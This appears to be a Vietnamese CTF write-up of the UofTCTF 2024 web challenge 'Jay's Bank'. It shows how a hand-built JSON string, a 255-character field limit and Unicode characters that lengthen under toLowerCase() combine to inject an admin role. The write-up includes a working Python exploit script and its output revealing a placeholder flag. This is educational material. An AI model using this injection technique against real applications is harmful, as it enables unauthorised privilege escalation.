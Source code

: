 ```yaml
---
title: "UofTCTF 2024"
layout: single
excerpt: "January 13, 2024 12:00 PM EST to January 14, 2024 11:59 PM EST 💻 "
header:
show_date: true
classes: wide
header:
  teaser: "https://hackmd.io/_uploads/BkpzSDDYT.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/BkpzSDDYT.png">
</p>


# WEB challs
## Jay's Bank - 499 point

### Description
```
My bank is still in pre-alpha-alpha-alpha stage, but I'm sure it's secure enough to keep all of your information safe.

Author: SteakEnthusiast

http://34.123.200.191/

```

source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/uofTCTF2024/jays-bank.zip)

### Solution

Giao diện trang web cung cấp như sau: 

![Alt text](https://hackmd.io/_uploads/HkFS1vDFp.png)

Vì challenge này cung cấp source code nên ta sẽ thực hiện review source trước.

Trong `CTF/uoftctf/jays-bank/routes/index.js`
Đọc đoạn code sau có thể thấy để có thể lấy được FLAG ta cần một tài khoản với `role:admin` 

![Alt text](https://hackmd.io/_uploads/rJowkPwFa.png)

Nhưng mặc định, khi người dùng thực hiện update profile sẽ add thêm một `role:user`

![Alt text](https://hackmd.io/_uploads/SJmt1DPFp.png)

Kiểm tra trong database

![Alt text](https://hackmd.io/_uploads/HyScywvYp.png)

Phân tích một chút trong hàm `router.put("/profile", jwtAuth, async (req, res)` trong index.js
Lỗ hổng trong thử thách này xuất phát từ vị trí này 

![Alt text](https://hackmd.io/_uploads/H1_okPPY6.png)

app thực hiện lấy các thông tin `username, phone, credit_card, secret_question, secret_answer` và add thêm một `role:user`. Trong đó gọi tới hai hàm `updateData` để cập nhật data user vào database

![Alt text](https://hackmd.io/_uploads/Hyw31vDK6.png)

và hàm `convert` nhận vào một đối tượng (object) `o` và trả về một chuỗi JSON được tạo ra từ các cặp khóa-giá trị của đối tượng đó

```js
  convert(o) {
    return `{${Object.entries(o).map(([k, v]) => 
      `"${k}": ${typeof v === "object" && v !== null ? convert(v) : `"${v}"`}`
    ).join(", ")}}`.toLowerCase();
  }
```

Cuối cùng hàm thực hiện chuyển kết quả json về dạng LowerCase() trả về một khối `data` và update data này cho user trong database.

Trong file `init.sql` định nghĩa độ dài tối đa cho trường data này là `255`. 

![Alt text](https://hackmd.io/_uploads/r1F6kwDFp.png)

Ý tưởng khai thác:
- Các trường `secret_answer` và `role: "user"` được insert gần nhau, trong đó trường secret_answer có khả năng kiểm soát. Để khai thác thành công, chúng ta cần chèn một chuỗi secret_answer đủ dài vừa đủ để chèn được role mới và xóa bỏ role:user cũ , từ đó ghi đè lên một trường role khác với giá trị là `admin`.

- Trước đó, `secret_answer` và `secret_question` cũng phải vượt qua các điều kiện check sao cho không vượt quá 45 ký tự bằng cách sử dụng các ký tự Unicode đặc biệt như `İ` có thể làm tăng kích thước khi đi qua hàm `toLowerCase()`

```
Có một số ký tự đặc biệt trong JavaScript

Đối với toUpperCase():
Các ký tự “ı” và “ſ” được toUpperCase xử lý và kết quả là “I” và “S”

Đối với toLowerCase():
Ký tự “K” được toLowerCase xử lý và kết quả là “k” (K này không phải là K)
```

### Script
```python
import requests

url = "http://127.0.0.1:3000/"

session = requests.session()

session.post(url + 'register', json={"password": "Abc@123!@#", "username": "abc9092909078"})

session.post(url + 'login', json={"username":"abc9092909078","password":"Abc@123!@#"})

session.put(url + 'profile', json={"phone":"1234567890","credit_card":"1234567890987654","secret_question":"İİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİ","secret_answer":"İİİİİİİİİİİİİİİİİİİİİİİİ\",\"role\":\"admin\"}","current_password":"Abc@123!@#"})

res = session.get(url + 'dashboard')

print(res.text)
```

Result:
```
|_>kali: python 1.py

<!DOCTYPE html>
<html>
<head>
    <title>Dashboard - Jay's Bank</title>
    <link rel="stylesheet" href="/css/dashboard.css">
</head>
<body>
    <div class="container">
        <nav>
            <ul>
                <li><a href="/">Home</a></li>
                <li><a href="/profile">Edit Profile</a></li>
                <li><a href="/logout">Logout</a></li>
            </ul>
        </nav>
        <h1>Welcome, abc9092909078</h1>
        <p>Your phone number: 1234567890</p>
        <p>Your credit card (last 4 digits): 7654</p>
        
            <p>Since you're the admin, here is your flag: uoftctf{fake_flag}</p>
        
    </div>
</body>
</html>
```
